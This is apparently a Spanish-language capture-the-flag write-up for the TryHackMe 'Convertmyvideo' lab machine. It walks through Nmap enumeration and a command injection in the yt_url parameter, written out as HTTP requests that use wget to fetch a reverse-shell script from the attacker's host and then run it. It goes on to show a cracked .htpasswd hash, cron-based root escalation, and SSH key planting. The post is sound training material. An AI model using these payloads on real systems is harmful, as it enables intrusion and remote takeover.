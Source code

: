 ```yaml
---
layout: post
title:  "Convertmyvideo - [THM]"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
categories: Tryhackme
---
```



{: .message}

Es una maquina linux que nos permite explotar una vulnerabilidad que se encuentra en el OWASP Top 10 (2017).

## Enumeración
### Nmap
*Puertos:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*Escaneo mas exhaustivo:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

Luego de fuzzear di con un directorio que es admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)

## PoC Inyección de comandos

Despues de un rato probando di con una inyección de comando en la parte donde se inserta la url

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)

Podemos tambien visualizar la flag desde aqui (Para el espaciado utilizo Input Field Separators que es una variable de separador de campo de entradas):  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)

Podemos visualizar el contenido que tiene admin:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)

Algo que llama la atencion es el contenido que tiene .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)

```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

Con esto lo podremos crackear ```jesie```  y posteriormente entrar en el panel que nos aparece cuando entramos a /admin. En esta oportunidad iremos por otro vector.

## Shell Inicial

Primero haremos una reverse sencilla con bash y luego nos montamos un servidor con python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Luego ejecutamos la reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

La  primera utilidad a utilizar es ```linpeas```  esta nos muestra lo mismo que sacamos con la inyección de comandos:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


Un script interesante es clean.sh, la idea es basicamente agregar una reverse y esperar que sea ejecutada:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)

En esta imagen se confirma mi teoria que basicamente consiste en que ese script es ejecutado por root mediante una tarea cron:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)

```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

Esto no va con la resolución de la maquina pero me parece interesante el tema del local port forwarding que nos permite a nosotros visualizar servicios que solo puedan verse en la maquina de manera local (Este no es el caso pero suponiendo que nos encontremos mas adelante con esto).

Primero nos generamos un par de llaves con ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)

Agregamos nuestra llave al authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)

Probamos que todo este correcto:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)

Con el siguiente comando le estamos diciendo que queremos que el puerto 80 de la maquina victima sea reflejado en el 8084 de nuestra maquina:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)

Asi lo podriamos visualizar:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)

En esta maquina pudimos explotar una inyección de comando y posteriormente abusar de una tarea cron.


